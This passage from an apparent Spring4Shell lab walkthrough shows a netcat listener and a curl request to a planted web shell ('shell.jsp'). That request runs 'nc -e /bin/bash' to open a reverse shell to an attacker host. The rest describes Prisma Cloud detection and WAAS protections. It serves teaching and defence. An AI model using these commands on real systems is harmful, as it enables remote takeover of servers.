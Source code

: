 5.	In order to get the reverse shell on the server we need to setup the rever shell listener on Kali machine by running the below command. Please use a separate tab to keep our session active.

```
nc -lvnp 9001
```

![](./images/pan09.png)
   
6. Send the payload using the curl command shown below

```
curl --output - http://<Vuln App IP Address>/shell.jsp?cmd=nc%20-e%20/bin/bash%2010.0.2.160%209001
```

![](./images/pan10.png)

7. Notice that on Kali machine we got a reverse shell and now you can run any command on the vulnerable application server.

![](./images/pan11.png)

## How Prisma Cloud Help you Detect and Prevent this Attack
 
## 1. Vulnerability Detection

**Prisma cloud has the capability to run scans and detect vulnerability in Java application packages. So if your application is running with Spring4Shell vulnerable package it will detect immediately. Prisma Cloud supports the scanning of container registries to identify vulnerabilities in packages early in the CI/CD pipeline. Prisma Cloud detects vulnerabilities in VMs/Host and Serverless applications during the build, deployment, and runtime.**

![](./images/pan12.png)

## 2. Misconfigured / non-complained container detection

**Prisma cloud will detect misconfigured workloads and alert you. As in this attack container running as a root user and due to that attacker is able to download and install netcat.**

![](./images/pan13.png)

## 3. WaaS Prevent from Command Injection Vulnerability
 
**Prisma WAAS secures web-based applications hosted on hosts and containers from attacks such as SQL injection, Cross-site scripting (XSS), Malformed request protection, Cross-site request forgery, Clickjacking, and Shellshock exploitation. Prisma Cloud WAAS can enforce API traffic security based on definitions specified in the form of Open API files.**

![](./images/pan14.png)

![](./images/pan15.png)
